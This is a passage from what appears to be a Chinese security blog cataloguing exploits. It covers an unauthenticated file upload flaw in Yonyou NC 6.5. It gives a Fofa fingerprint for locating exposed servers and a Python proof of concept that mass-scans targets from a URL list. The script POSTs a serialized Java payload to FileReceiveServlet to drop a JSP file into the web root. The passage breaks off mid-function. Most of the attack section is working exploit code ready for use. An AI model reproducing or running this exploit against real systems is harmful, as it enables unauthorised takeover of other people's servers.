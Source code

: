 ![image-20220420130305834](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420130305834.png)



### 3.4 用友 `NC 6.5` 未授权文件上传漏洞

用友 `NC6.5` 版本存在未授权文件上传漏洞，攻击者可以未授权上传任意文件，进而获取服务端控制权限。

Fofa:

```
"/platform/yonyou-yyy.js"
```

POC:

```python
import requests
import threadpool
import urllib3
import sys
import argparse

urllib3.disable_warnings()
proxies = {'http': 'http://localhost:8080', 'https': 'http://localhost:8080'}
header = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": "https://google.com",
}

def multithreading(funcname, filename="url.txt", pools=5):
    works = []
    with open(filename, "r") as f:
        for i in f:
            func_params = [i.rstrip("\n")]
            works.append((func_params, None))
    pool = threadpool.ThreadPool(pools)
    reqs = threadpool.makeRequests(funcname, works)
    [pool.putRequest(req) for req in reqs]
    pool.wait()

def wirte_targets(vurl, filename):
    with open(filename, "a+") as f:
        f.write(vurl + "\n")
        return vurl
    
def exp(u):
    uploadHeader = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
        "Content-Type": "multipart/form-data;",
        "Referer": "https://google.com"
    }
    uploadData = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x02\x74\x00\x09\x46\x49\x4c\x45\x5f\x4e\x41\x4d\x45\x74\x00\x09\x74\x30\x30\x6c\x73\x2e\x6a\x73\x70\x74\x00\x10\x54\x41\x52\x47\x45\x54\x5f\x46\x49\x4c\x45\x5f\x50\x41\x54\x48\x74\x00\x10\x2e\x2f\x77\x65\x62\x61\x70\x70\x73\x2f\x6e\x63\x5f\x77\x65\x62\x78"
    shellFlag="t0test0ls"
    uploadData+=shellFlag
    try:
        req1 = requests.post(u + "/servlet/FileReceiveServlet", headers=uploadHeader, verify=False, data=uploadData, timeout=25)
```